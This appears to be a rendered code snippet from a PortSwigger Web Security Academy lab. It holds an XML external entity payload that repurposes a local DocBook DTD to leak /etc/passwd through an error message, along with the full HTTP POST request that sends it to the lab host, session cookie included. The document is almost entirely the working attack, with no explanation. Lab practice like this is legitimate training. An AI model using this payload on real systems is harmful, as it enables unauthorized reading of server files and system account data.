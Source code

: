 ```plain
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

```plain
POST /product/stock HTTP/1.1
Host: 0a06001504bf952683b5c9f9000b000b.web-security-academy.net
Connection: close
Content-Length: 427
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a06001504bf952683b5c9f9000b000b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a06001504bf952683b5c9f9000b000b.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=h6z4LaWkg2wcYbYdkEE7jEBWHblJNA4U

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

